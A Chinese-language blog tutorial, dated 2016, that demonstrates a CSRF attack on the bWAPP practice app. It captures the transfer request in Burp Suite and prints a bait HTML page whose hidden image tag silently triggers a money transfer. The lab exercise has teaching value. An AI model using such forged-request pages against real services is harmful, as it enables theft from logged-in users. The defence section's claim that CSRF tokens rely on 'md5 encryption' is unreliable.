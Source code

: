 ```yaml
---
published: true
title: CSRF (Cross-Site-Request-Forgery) 跨站請求偽造攻擊 in OWASP
layout: post
author: David
category: [ NetSecurity , OWASP Top10 ]
tags:
- csrf
- cross-site-request-forgery
- netsecurity
- owasp top10
comments: true
---
```

<div class='post-body entry-content' id='post-body-542148310267796862' itemprop='description articleBody'>
CSRF全名為Cross-Site-Request-Forgery&#65292;跨站請求偽造攻擊&#12290;<br />
簡而言之&#65292;駭客利用你瀏覽網站時尚未過期的session來進行偽造&#65292;發送惡意request&#12290;<br />
<br />
舉個例子&#65292;以網路銀行為例&#65292;你向網銀發送帳號密碼進行驗證&#65292;驗證通過後server會回傳驗證成功&#65292;可以進行所有&#8220;登入後才可以進行的動作&#8221;&#12290;<br />
這時候駭客利用網銀尚未通知閒置過久(session未過期)&#65292;可以利用社交工程或者是其他方式讓user在不知不覺中發送request&#12290;<br />
<br />
如何做到就是我們以下要講的&#12290;<br />
<br />
我們利用原先就有CSRF漏洞的OWASP bWApp來進行練習&#12290;<br />
目的就是讓user讓不知不覺的情況下成功被轉帳&#12290;<br />
<br />
step1.我們必須要知道&#8220;轉帳&#8221;這個步驟在web端如何發送request&#12290;<br />
我們可以用自己電腦來得到這個連結<br />
先將瀏覽器設定代理伺服器(Proxy)<br />
使用Burp-Suite內建proxy工具進行request攔截<br />
<a href="http://4.bp.blogspot.com/-kpfsA12kwv4/V9GNMyTNszI/AAAAAAAAA0c/a8UYfxg1R0o1g9Xm_F8GAYqGq_ww2HMwwCK4B/s1600/%25E8%259E%25A2%25E5%25B9%2595%25E5%25BF%25AB%25E7%2585%25A7%2B2016-09-09%2B%25E4%25B8%258A%25E5%258D%258812.08.39.png" imageanchor="1"><img border="0" height="200" src="https://4.bp.blogspot.com/-kpfsA12kwv4/V9GNMyTNszI/AAAAAAAAA0c/a8UYfxg1R0o1g9Xm_F8GAYqGq_ww2HMwwCK4B/s320/%25E8%259E%25A2%25E5%25B9%2595%25E5%25BF%25AB%25E7%2585%25A7%2B2016-09-09%2B%25E4%25B8%258A%25E5%258D%258812.08.39.png" width="320" /></a><br />
<br />
可以看到在我們設定proxy之後&#65292;點擊"transfer"網頁會有點卡住<br />
那是因為我們的request被攔截下來了<br />
這時候我們可以看到這一段語法是轉帳的執行語法<br />
<span style="color: red;">GET /bWAPP/csrf_2.php?account=123-45678-90&amp;amount=0&amp;action=transfer HTTP/1.1</span><br />
<span style="color: red;">account=轉出帳號</span><br />
<span style="color: red;">amount=轉出金額</span><br />
p.s.按Forward可以繼續將request送出&#65292;甚至可以修改再送出&#12290;<br />
<br />
step2.撰寫釣魚網頁<br />
為了簡化過程&#65292;我們簡化網頁內容&#65292;實際進行攻擊的網頁通常不會這麼簡單&#12290;<br />
<a href="http://2.bp.blogspot.com/-2ICSH4fgLyE/V9GO1q0ouDI/AAAAAAAAA0k/iLMH0uw1ZWcEFORzbj4yI3Cq95gB26ZNwCK4B/s1600/%25E8%259E%25A2%25E5%25B9%2595%25E5%25BF%25AB%25E7%2585%25A7%2B2016-09-09%2B%25E4%25B8%258A%25E5%258D%258812.15.49.png" imageanchor="1"><img border="0" height="200" src="https://2.bp.blogspot.com/-2ICSH4fgLyE/V9GO1q0ouDI/AAAAAAAAA0k/iLMH0uw1ZWcEFORzbj4yI3Cq95gB26ZNwCK4B/s320/%25E8%259E%25A2%25E5%25B9%2595%25E5%25BF%25AB%25E7%2585%25A7%2B2016-09-09%2B%25E4%25B8%258A%25E5%258D%258812.15.49.png" width="320" /></a><br />
<br />
<br />
##################################<br />
&lt;html&gt;<br />
&lt;head&gt;<br />
<span class="Apple-tab-span" style="white-space: pre;"> </span>&lt;meta charset="utf-8"&gt;<br />
&lt;/head&gt;<br />
<span class="Apple-tab-span" style="white-space: pre;"> </span>&lt;body&gt;<br />
<span class="Apple-tab-span" style="white-space: pre;">  </span>&lt;font&gt;<br />
<span class="Apple-tab-span" style="white-space: pre;">   </span>泰勒絲愛你哦 &lt;/br&gt;<br />
<span class="Apple-tab-span" style="white-space: pre;">   </span>這是泰勒斯的電話跟照片 &lt;/br&gt;<br />
<span class="Apple-tab-span" style="white-space: pre;">   </span>0931097313 &lt;/br&gt;<br />
<span class="Apple-tab-span" style="white-space: pre;">   </span>點擊照片到我的blog看更多照片哦&lt;/br&gt;<br />
<span class="Apple-tab-span" style="white-space: pre;">  </span>&lt;/font&gt;<br />
<span class="Apple-tab-span" style="white-space: pre;">  </span>&lt;img src="http://172.20.10.2/bWAPP/csrf_2.php?account=123-45678-90&amp;amount=200&amp;action=transfer=a.jpg"&gt;<br />
<span class="Apple-tab-span" style="white-space: pre;">  </span>&lt;a href="http://www.google.com.tw" target=""&gt; &nbsp;&lt;img src="http://www.daliulian.org/imgs/image/12/1251496.jpg"&gt;<span class="Apple-tab-span" style="white-space: pre;"> </span>&lt;/a&gt;<br />
<span class="Apple-tab-span" style="white-space: pre;"> </span>&lt;/body&gt;<br />
&lt;/html&gt;<br />
#################################<br />
<br />
<br />
step3. 尋找目標下手<br />
撰寫完成只要找尋目標&#65292;使user成功點擊網站&#65292;即可完成轉帳&#12290;<br />
user不需要點擊任何圖片或者是網址&#65292;只需要看到這個頁面就可以進行CSRF攻擊了&#12290;<br />
<a href="http://3.bp.blogspot.com/-os2U7Tlh4SU/V9GP7asOWoI/AAAAAAAAA0s/lMGIwe2SO7c9vLsXIuTQ2PLeFKyQn_ivgCK4B/s1600/%25E8%259E%25A2%25E5%25B9%2595%25E5%25BF%25AB%25E7%2585%25A7%2B2016-09-09%2B%25E4%25B8%258A%25E5%258D%258812.20.39.png" imageanchor="1"><img border="0" height="200" src="https://3.bp.blogspot.com/-os2U7Tlh4SU/V9GP7asOWoI/AAAAAAAAA0s/lMGIwe2SO7c9vLsXIuTQ2PLeFKyQn_ivgCK4B/s320/%25E8%259E%25A2%25E5%25B9%2595%25E5%25BF%25AB%25E7%2585%25A7%2B2016-09-09%2B%25E4%25B8%258A%25E5%258D%258812.20.39.png" width="320" /></a><br />
<br />
step4.我們回到剛剛的bWApp帳戶頁面&#65292;重新整理後會發現已經如程式碼所寫的轉出200 EUR了&#65292;然後這段時間user沒有對這個網頁進行任何動作&#12290;<br />
<a href="http://3.bp.blogspot.com/-GEu9bf75qnE/V9GQcIZDlHI/AAAAAAAAA00/rqiRgfRHIgQztFwSsxfQO9M_CvYeIyTUACK4B/s1600/%25E8%259E%25A2%25E5%25B9%2595%25E5%25BF%25AB%25E7%2585%25A7%2B2016-09-09%2B%25E4%25B8%258A%25E5%258D%258812.22.52.png" imageanchor="1"><img border="0" height="200" src="https://3.bp.blogspot.com/-GEu9bf75qnE/V9GQcIZDlHI/AAAAAAAAA00/rqiRgfRHIgQztFwSsxfQO9M_CvYeIyTUACK4B/s320/%25E8%259E%25A2%25E5%25B9%2595%25E5%25BF%25AB%25E7%2585%25A7%2B2016-09-09%2B%25E4%25B8%258A%25E5%258D%258812.22.52.png" width="320" /></a><br />
<br />
總結&#65306;<br />
這是因為user的request已經被我們依樣畫葫蘆偽造了一份&#65292;並加以修改回傳給銀行server&#65292;然而銀行也未查覺到有任何異常&#65292;在銀行看來就是user發送的一般請求而已&#12290;<br />
<br />
防禦&#65306;<br />
現在網路服務皆會設定閒置過期時間(session-time-out)&#65292;閒置過久將會被自動登出&#65292;減少被偽造的機會&#12290;<br />
而有些較大的web server&#65292;例如facebook&#12289;google...etc會設有token&#65292;所謂token就是利用演算法算出一組unique key&#65292;再經由md5加密送出&#65292;user做任何動作都需要token驗證&#65292;使駭客無從偽造&#65292;因為他沒有使用你當前的瀏覽器就無法得知你目前的token是什麼&#12290;<br />
當然你會說&#65292;md5加密還是可以破解&#65292;沒錯&#65281;所以重點在於演算法的精密度&#65292;越精密的演算法&#65292;駭客越無從猜測&#65292;也就無從破解&#12290;<br />
目前ASP.Net 的mvc上的CSRF防禦已經非常普遍化了&#65292;可以利用簡單的程式碼計算token&#65292;加以防禦簡單的CSFR攻擊&#12290;<br />
<br />
經由以上簡單的CSRF滲透測試&#65292;雖然現今大部分網頁服務都有防禦CSRF&#65292;但是我們必須知道如果不使用的話&#65292;盡可能登出網頁服務&#65292;就可以避免造成不必要的風險&#12290;<br />
<br />
<div style="text-align: right;">
&nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp;2016-09-09 , David in Taipei.</div>